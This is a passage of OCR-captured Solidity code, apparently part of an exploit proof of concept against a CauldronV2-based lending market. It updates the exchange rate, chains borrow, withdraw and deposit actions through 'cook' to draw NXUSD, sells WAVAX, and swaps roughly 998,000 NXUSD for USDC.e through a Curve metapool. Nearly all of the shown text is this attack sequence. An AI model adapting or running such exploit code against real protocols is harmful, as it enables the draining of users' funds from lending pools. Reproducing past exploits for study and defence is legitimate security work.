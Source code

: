 │         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │
│             998_000 * 1e18,                                                                                                                                                                                                                          │
│             950_000 * 1e6                                                                                                                                                                                                                            │
│         );                                                                                                                                                                                                                                           │